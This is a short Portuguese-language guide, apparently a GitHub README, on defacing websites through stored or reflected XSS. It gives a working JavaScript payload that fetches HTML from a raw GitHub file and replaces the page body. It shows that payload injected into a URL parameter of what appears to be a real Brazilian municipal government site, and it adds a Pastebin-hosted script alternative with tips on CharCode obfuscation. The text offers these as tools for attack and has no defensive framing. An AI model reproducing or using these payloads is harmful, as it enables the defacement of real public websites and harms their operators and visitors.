 no caso este e o js, o link que voce botar no fetch ele deve encaminhar para um raw do html


fetch('https://raw.githubusercontent.com/Midia12/deface/main/index.html').then(r => r.text()).then(html => document.body.innerHTML = html);

no caso dessa aplicação seria para stored xss mas tambem server para xss normal

exemplo aonde eu aplico


https://sms.presidenteprudente.sp.gov.br/saanut/index.php?msg=<img%20src=x%20onerror="fetch('https://raw.githubusercontent.com/Midia12/deface/main/index.html').then(r%20=>%20r.text()).then(html%20=>%20document.body.innerHTML%20=%20html);">


O html que eu uso esta nesse link

https://raw.githubusercontent.com/Midia12/deface/main/index.html


obs: este js nao funciona com encurtadores por exemplo bit.ly


uma outra maneira caso voce querita usar o pastebin por exemplo voce pode usar o seguinte codigo

<script type="text/javascript" src="https://pastebin.com/raw/cEwQU0Ab"></script>

neste codigo do pastebin, ele esta em raw, ele este esta usando o metedo de deface CharCode, ele em CERTAS SITUAÇÕES pode sem melhor que outros metodos, caso queira converter para esse formato "ofuscado" voce pode usar este site: https://charcode98.neocities.org/
so não esqueca de adicionar as virgulas

mas existe chance do navegador bloquear por algumas policas de seguranca


detalhe que vale lembrar deface por xss 90% das vezes o html fica meio bugado, entao nao recomendo voce botar muitos efeitos ou slq oq, quanto mais simples melhor 
